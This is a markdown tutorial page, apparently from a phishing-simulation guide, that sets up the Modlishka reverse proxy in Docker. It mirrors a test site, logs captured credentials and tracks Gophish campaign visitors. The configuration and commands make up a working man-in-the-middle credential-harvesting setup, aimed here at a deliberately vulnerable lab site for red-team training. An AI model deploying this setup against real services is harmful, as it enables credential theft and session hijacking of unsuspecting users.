 +++
title = "Modlishka"
weight = 65
+++

### Modlishka

Modlishka is an amazing tool that can mirror a website on the fly, rewriting links to ensure the site functions. This allows us to essentially MitM connections to our targeted service from a domain we control.

Checkout of Modlishka and get things setup to be run in docker.

```bash
mkdir ~/Desktop/op/docker/modlishka
cd ~/Desktop/op/docker/modlishka
mkdir modlishka-data
touch modlishka-data/config.json
git clone https://github.com/Stage2Sec/Modlishka.git
cd Modlishka
cp extra/docker/* .
```

Modlishka can take command line arguments or a configuration file. We are opting to use the configuration file. Add the following to `~/Desktop/op/docker/modlishka/modlishka-data/config.json`

```json
{
  "proxyDomain": "modlishka.docker",
  "target": "testphp.vulnweb.com",
  "trackingCookie": "iamadumbcookie",
  "trackingParam": "rid",
  "controlCreds": "phisherman:phisherpass",
  "controlURL": "livewell",
  "terminateRedirectUrl": "",
  "terminateTriggers": "/nowhere",
  "allowSecureCookies": true,
  "listeningAddress": "0.0.0.0",
  "targetResources": "",
  "jsRules": "",
  "jsReflectParam": "reflect",
  "proxyAddress": "",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "/data/creds.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": "",
  "rules": "",
  "credParams": ""
}
```

The `trackingParam` value is what Modlishka uses to determine what visits belong to what users, we'll map this to `rid` since that is what Gophish uses by default.

Now we can add Modlishka to our docker compose services.

```yml
  modlishka:
    build:
      context: "modlishka/Modlishka/"
    entrypoint: /bin/proxy
    command: -config /data/config.json
    container_name: modlishka
    environment:
      - VIRTUAL_HOST=modlishka.docker
    volumes:
      - "./modlishka/modlishka-data:/data"
```

Lets test it out. Lets stop docker compose and restart it:

```bash
sudo docker compose up
```

Now open [http://modlishka.docker/](http://modlishka.docker/). We should see the Accunetix test site being hosted from our fake domain.

![Modlishka Accunetix Test Site](/static/how-to-phishing/modlishka-accunetix-test-site.png)